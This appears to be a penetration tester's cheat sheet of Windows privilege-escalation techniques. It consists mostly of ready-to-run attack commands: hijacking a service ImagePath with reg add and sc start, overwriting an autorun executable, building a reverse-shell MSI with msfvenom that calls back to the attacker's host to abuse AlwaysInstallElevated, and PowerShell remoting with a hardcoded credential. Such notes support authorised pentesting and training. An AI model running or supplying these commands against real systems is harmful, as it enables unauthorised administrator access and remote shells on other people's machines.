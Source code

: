 #### Windows Registry Service Permissions Exploit
###### Create Malicious Executable
[[#Create New Administrative User|Add New Admin User or Reverse Shell]]
###### Add Executable to Registry Path
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /V ImagePath /t REG_EXPAND_SZ /d C:\temp\exploit.exe /f`
###### Start Registry Service to Execute Payload
`sc start regsvc`

---
#### Autoruns
###### Create Malicious Executable
[[#Create New Administrative User|Add New Admin User or Reverse Shell]]
###### Replace Autorun Executable
`copy payload.exe "C:\Users\Public\script.exe" /Y`
###### Trigger
Based on the autorun conditions (may be when someone logs in etc.).

---
#### AlwaysInstallElevated
Due to this configuration, running an MSI can result in privileged actions.
###### Create malicious MSI
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<YOUR_PORT> -f msi -o shell.msi`
###### Execute MSI
`msiexec /i C:\path\to\file.msi /passive`

---
##### PowerShell Remoting Example
1. `$password = ConvertTo-SecureString "Password1!" -AsPlainText -Force`
2. `$cred = New-Object System.Management.Automation.PSCredential("peteadmin", $password)`
3. `Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred`
This can cause unexpected issues when carried out from a bind shell. In these cases try to use evil-winrm.

**Run CMD as a specific user (requires GUI)**
`runas /user:<username> cmd`



